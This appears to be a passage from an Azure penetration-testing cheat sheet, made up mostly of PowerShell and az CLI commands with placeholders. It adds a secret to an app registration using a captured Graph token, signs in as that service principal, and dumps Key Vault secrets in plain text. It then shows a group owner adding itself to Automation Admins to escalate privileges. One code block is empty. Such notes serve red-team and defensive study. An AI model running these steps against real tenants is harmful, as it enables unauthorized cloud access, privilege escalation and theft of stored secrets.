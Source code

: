 ```powershell

```

Usage is simple

```powershell
Add-AzADAppSecret -GraphToken {{ Token eyJ0eX... }} -Verbose
```

Connect to Azure as a service principal

```powershell
# Connect as fileapp service principal
$passwd = ConvertTo-SecureString "{{ Secret secret }}" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("{{ ServicePrincipalID serviceprincipalid}}", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant {{ TenantId tenantid}}
```

Then we can relaunch the enumeration phase:

```powershell
# List resources
Get-AzResource

# List secrets in keyvault
Get-AzKeyVaultSecret -VaultName {{ VaultName vaultname }}

# Access keyvault
Get-AzKeyVaultSecret -VaultName {{ VaultName vaultname }} -Name {{ SecretName secretname }}-AsPlainText
```

## Automation abuse

The group automation admins is interesting, we can list the owned objects for a user:

```powershell
az ad signed-in-user list-owned-objects
# Example output
#{
#    "deletionTimestamp": null,
#    "description": "Members can create and run runbooks",
#    "dirSyncEnabled": null,
#    "displayName": "Automation Admins",
#    [...]
```

A user who owns a group but is not member of a group can make itself member of the group

```powershell
Add-AzureADGroupMember -ObjectId {{ UserId userid }} -RefObjectId {{ Group object }} -Verbose
```

Once the user belongs to Authomation Admins it can list automations

```powershell
az automation account list
```
